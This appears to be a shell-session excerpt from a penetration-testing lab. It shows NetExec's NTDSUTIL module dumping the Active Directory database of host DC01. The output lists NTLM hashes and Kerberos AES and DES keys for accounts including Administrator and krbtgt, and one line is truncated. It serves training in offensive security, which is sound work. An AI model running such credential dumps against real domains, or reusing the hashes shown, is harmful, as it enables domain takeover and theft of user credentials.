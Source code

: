 ```shell-session
NTDSUTIL    10.129.201.57   445     DC01         [+] Deleted C:\Windows\Temp\174556000 remote dump directory
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.129.201.57   445     DC01         DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
NTDSUTIL    10.129.201.57   445     DC01         Administrator:des-cbc-md5:618c1c5ef780cde3
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
NTDSUTIL    10.129.201.57   445     DC01         DC01$:des-cbc-md5:a2852362e50eae92
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:des-cbc-md5:9bd5017fdcea8fae
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumped 61 NTDS hashes to /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds of which 15 were added to the database
```